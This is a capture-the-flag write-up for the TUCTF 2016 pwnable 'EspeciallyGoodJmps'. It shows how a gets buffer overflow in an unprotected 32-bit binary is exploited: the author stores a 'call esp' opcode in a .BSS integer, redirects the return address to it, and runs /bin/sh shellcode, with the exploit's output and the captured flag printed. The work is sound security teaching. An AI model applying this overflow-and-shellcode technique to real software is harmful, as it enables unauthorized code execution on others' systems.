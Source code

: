 ```yaml
---
layout: post
title: TUCTF CTF 2016 - EspeciallyGoodJmps
post_author: r00ta
excerpt_separator: <!--more-->
---
```


This is a simple pwnable challenge, solved with a funny trick.

First of all execute `file` command

```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x161ccbaf95a7d5b84a8298afab8fdeaeedd445c0, not stripped
```

and `checksec` 

```bash
$ ./checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		4	23e4f31a5a8801a554e1066e26eb34745786f4c4
```

So i expect that i have to do something on the stack.
The program is simple: reads a string with `gets` and an integer and check if it is odd. 

<!--more-->

![Vuln](/files/tuctf2016/pwn75/vuln.png)

We can easily overflow the buffer and execute out shellcode. But the tricky part is to get the address of the buffer due ASLR. So i look for any useful 
gadget in the binary but without luck. 

But the integer `meow` is stored in the `.BSS`

![Meow](/files/tuctf2016/pwn75/meow.png)

 so i can store an instruction that turns the control flow to my shellcode! What about `call esp`? The opcode for `call esp` is `ff d4` so the integer to send is

```bash
 $ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xd4ff
54527
```

So we overwrite the return address with `0x804a048` in order to call our istruction.

The full exploit is available [here](/files/tuctf2016/pwn75/exploit.py)! 

Let's PWN them!

```bash
$ python exploit.py 130.211.202.98 7575
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH�����������1�Ph//shh/bin�����°
    1�@̀, 54527 is an odd number!
ls
easy
flag.txt
cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```
